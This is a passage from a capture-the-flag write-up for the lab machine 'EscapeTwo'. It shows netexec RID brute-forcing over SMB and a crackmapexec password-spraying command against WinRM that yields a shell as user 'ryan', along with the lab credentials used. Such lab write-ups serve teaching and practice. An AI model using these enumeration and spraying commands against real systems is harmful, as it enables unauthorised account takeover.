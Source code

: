(ch3ckm8)        (table)
### (╯°□°）╯︵ ┻━┻

So here, we got a pass, but we dont know which username is associated with it, lets do some password spraying to find a list of usernames using netexec tool
```SHELL
nxc smb EscapeTwo.htb -u 'rose' -p 'KxEPkKe6R8su' --rid-brute
```

i placed the users on a txt file, and then used crackmapexec for winrm
```SHELL
crackmapexec winrm $TAR -u usernames.txt -p 'WqSZAF6CysDQbGb3' --continue-on-success
```

aand we got ourselves a shell! we also see its associated with user **ryan**, so the creds for future reference are:
```
ryan -> WqSZAF6CysDQbGb3
```
lets grab the user flag and move on to the privesc

Also, upon seeing the name ryan, only one thing comes to mind (yeah you thought about it too)

![](MediaFiles/Pasted%20image%2020250408020522.png)
# Privesc
